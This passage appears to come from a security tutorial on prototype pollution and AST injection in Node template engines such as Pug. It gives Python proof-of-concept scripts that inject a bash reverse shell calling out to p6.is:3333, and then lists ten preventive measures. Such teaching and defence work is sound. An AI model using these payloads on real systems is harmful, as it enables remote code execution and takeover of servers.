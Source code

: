```
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1')"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

# execute
requests.get(TARGET_URL)
```
```
#### Pug Vulnerability

Pug, another template engine, faces a similar risk of prototype pollution. Detailed information is available in the discussion on [[https://blog.p6.is/AST-Injection/#Pug|AST Injection in Pug]].

Example of prototype pollution in Pug:

```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1')"
    }
})

# execute
requests.get(TARGET_URL)
```
```
### Preventive Measures

To reduce the risk of prototype pollution, the strategies listed below can be employed:

1. **Object Immutability**: The `Object.prototype` can be made immutable by applying `Object.freeze`.
2. **Input Validation**: JSON inputs should be rigorously validated against the application's schema.
3. **Safe Merge Functions**: The unsafe use of recursive merge functions should be avoided.
4. **Prototype-less Objects**: Objects without prototype properties can be created using `Object.create(null)`.
5. **Use of Map**: Instead of `Object`, `Map` should be used for storing key-value pairs.
6. **Library Updates**: Security patches can be incorporated by regularly updating libraries.
7. **Linter and Static Analysis Tools**: Use tools like ESLint with appropriate plugins to detect and prevent prototype pollution vulnerabilities.
8. **Code Reviews**: Implement thorough code reviews to identify and remediate potential risks related to prototype pollution.
9. **Security Training**: Educate developers about the risks of prototype pollution and best practices for writing secure code.
10. **Using Libraries with Caution**: Be cautious while using third-party libraries. Assess their security posture and review their code, especially those manipulating objects.
```